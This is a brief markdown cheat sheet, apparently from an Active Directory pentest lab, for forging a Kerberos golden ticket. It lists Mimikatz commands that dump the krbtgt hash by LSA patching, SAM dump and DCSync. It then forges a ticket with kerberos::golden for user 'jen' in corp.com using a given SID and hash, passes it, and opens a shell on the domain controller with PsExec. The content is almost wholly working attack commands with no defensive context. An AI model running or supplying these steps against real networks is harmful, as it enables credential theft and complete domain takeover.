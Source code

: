 This ticket is craftable after we obtain the hash of krbtgt

# Geting krbtgt hash
```bash
# Mimikatz
privilege::debug
lsadump::lsa /patch

lsadump::sam

lsadump::dcsync 
```

-----------------------

# Craft ticket and use
```bash
kerberos::purge
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt

misc::cmd

PsExec.exe \\dc1 cmd.exe
```
